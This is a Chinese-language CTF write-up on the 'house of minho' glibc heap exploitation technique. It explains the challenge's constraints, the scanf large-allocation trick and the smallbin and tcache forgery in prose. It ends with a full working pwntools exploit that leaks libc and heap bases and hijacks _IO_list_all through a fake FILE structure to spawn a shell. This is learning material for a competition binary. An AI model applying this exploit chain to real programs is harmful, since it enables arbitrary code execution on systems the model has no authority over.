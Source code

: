 ```yaml
---
title: housofminho
date: 2024-08-01
categories: 日常研究
---
```

# 前言
`houseofminho`最早是在宁波赛上遇到的，没想到这玩意给了我迎头痛击。当时老觉得这些过于复杂的堆利用有点钻牛角尖了，实战意义不大，但是现在想想，还是得认真学这些。

这种复杂的堆利用如果一直畏难的话，那我就一直不会有长进，但是啃下来之后却也觉得还能接受了。
# 题目详情
通过出题人给的源码我们可以发现，我们至始至终最多只能操控一个堆块，并且大小只能是0x40或0x80。尽管题目在0x40的堆块读入时给了0x80的大溢出，但是我们的利用还是有很大麻烦。

有一个很重要而且有趣的点是这道题对于scanf的利用

**scanf在收到大量字节输入时会调用malloc来创建缓冲区**
**而这道题看似scanf只有一个读入数字的处理？怎么让他收到大量字节输入呢**
**答案是在原来与题目交互时输入的1,2,3前面加上很多个0，这样就会让scanf有一个malloc大量字节后再free的操作**
**以上有一个前提，就是没有setbuf(stdin,0)**

初步利用思路
1. 在smallbin内放入多个0x90大小的堆块
2. 通过scanf的大malloc来触发将smallbin放入tcachebin的机制，从而利用溢出改fd指针获得任意地址写

那么下一步就是如何获得smallbin了
1. 首先smallbin只需要有一个，剩下我们可以通过bk指针在可控的堆上通过布局伪造，即使显示被corrupted，但是将它们放入tcachebin的过程是沿着bk进行且没有检查，所以这样是可以的
![smallbin](./minho/smallbin.png)
2. 那么smallbin从哪里来呢，答案是从unsortedbin
3. 我们可以先将堆块size改大，放入unsortedbin，再改小size(由于unsortedbin本身就是什么size大小的堆块都有，在此处自然没有对其size的检查)
4. 通过scanf的大堆块申请之后，被我们改小size的unsortedbin就会落入smallbin

当然上述都只是相对简化的，实际这题中还有两个点
1.  1. 利用unsortedbin伪造smallbin的过程中，在改小了size的unsortedbin下方，我们还需要伪造glibc的保护块来防止出错，而这样我们的可控空间就不够大了。
   ![heap1](./minho/heap1.png)
   图中很明显，我们可控的部分是绿色堆块往下0x80的大小，以及蓝色堆块往下数0x80的大小，但是我们必须伪造0x90大小的堆块！而且在0x90大小的堆块下方还需伪造两个哨兵块来防止malloc报错
    2. 所以在这里还有一个unlink手法，将unsortedbin向上合并0x30的大小以提高伪造利用率。
    3. 在图中可以看到绿色堆块中的0x31大小的堆块就是准备用来合并的，这样我们利用0x50大小堆块的uaf范围就可以从(0x80-0x48)变成(0x80-0x18)，大大增加了伪造的可能性
2.  在程序最开始还利用scanf的大堆块写往图中最下方的橙色堆块后方写了一个\x33，也就是3的ascii码。这样的布局可以防止蓝色堆块被free成unsortedbin之后的合并检查出错，因为\x33的prev_in_use位为1，被启用。

我这里也只是简单写一下思路，这题中的很多细节我都讲的比较粗略或者不够完整。
更完整详细的解题思路可以去看看[看雪Csome的记录](https://bbs.kanxue.com/thread-279588.htm)

这是完整exp
```
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    os = "linux",
    arch = "amd64",
    # arch = "i386",
    log_level="info",
)
def debug(io):
    gdb.attach(io,
'''
# b *$rebase(0x121B)
b 25
'''
)
io = process("./bh")

def add_small(content):
    log.info(f'add_small {content}')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'1')
    io.sendlineafter(b'Size [1=small / 2=big]: ',b'1')
    io.sendafter(b'Data: ',content)
def add_big(content):
    log.info(f'add_big {content}')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'1')
    io.sendlineafter(b'Size [1=small / 2=big]: ',b'2')
    io.sendafter(b'Data: ',content)
def show():
    log.info('show')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'2')
def show2(len):
    log.info(f'show {hex(len-1)}*0 + 2')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'0'*(len-1) + b'2')
def delete():
    log.info(f'delete')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'3')
def delete3(len):
    log.info(f'delete {hex(len-1)}*0 + 3')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'0'*(len-1) + b'3')

debug(io)
delete3(0xd59)
add_small(b'x'*0x48 + p64(0xd11))
show2(0x1000)
delete()
add_small(b'x'*0x50)
show()
io.recvuntil(b'x'*0x50)
libc_base = u64(io.recv(0x6).ljust(8,b'\x00')) - 0x219ce0
log.success(hex(libc_base))

delete()
add_small(b'x'*0x48 + p64(0xcf1))
delete()
add_big(b'x')
delete()
add_small(b'x'*0x50)
show()
io.recvuntil(b'x'*0x50)
heap_base = (u64(io.recv(0x5).ljust(8,b'\x00')) - 0x1)*0x1000
log.success(hex(heap_base))
delete()
add_small(b"a" * 0x10 + p64(0) + p64(0x31) + p64(heap_base + 0x12c0) * 2 + p64(0x0) * 2 + p64(0x30) + p64(0xd00))
delete()
add_big(b"a" * 0x50 + p64(0x90) + p64(0x10) + p64(0x00) + p64(0x11))
delete()
add_small(flat({
    0x10:0,
    0x18:0x91,
    0x20:heap_base + 0x1380,
    0x28:libc_base + 0x219ce0,
},filler=b'\x00'))
show2(0xfff)
delete()

add_small(flat({
    0x10 : {
            0x00: 0,
            0x08: 0x91,
            0x10: heap_base + 0x12c0,
            0x18: heap_base + 0x12c0 + 0x30,

            0x30: 0,
            0x38: 0x91,
            0x40: heap_base + 0x12c0,
            0x48: heap_base + 0x12c0 + 0x50,
 
            0x50: 0,
            0x58: 0x91,
            0x60: heap_base + 0x12c0 + 0x30,
            0x68: libc_base + 0x219d60
        }
    }
, filler=b"\x00"))
delete()

add_big(b'x')
delete()
_IO_list_all = libc_base + 0x21a680
system = 0x50d60 + libc_base
 
fake_file = heap_base + 0x12e0
add_small(b"a"*0x10+p64(0) + p64(0x71) + p64((heap_base + 0x12d0 + 0x70)^((heap_base + 0x1000)>>12)))
delete()
add_big(flat({
    0x0+0x10: b"  sh;",
    0x28+0x10: system,
    0x68: 0x71,
    0x70: _IO_list_all ^((heap_base + 0x1000)>>12),
}, filler=b"\x00"))
delete()
add_big(flat({
    0xa0-0x60: fake_file-0x10,
    0xd0-0x60: fake_file+0x28-0x68,
    0xD8-0x60: libc_base + 0x2160C0, # jumptable
}, filler=b"\x00"))
delete()
add_big(p64(fake_file))

io.interactive()
```

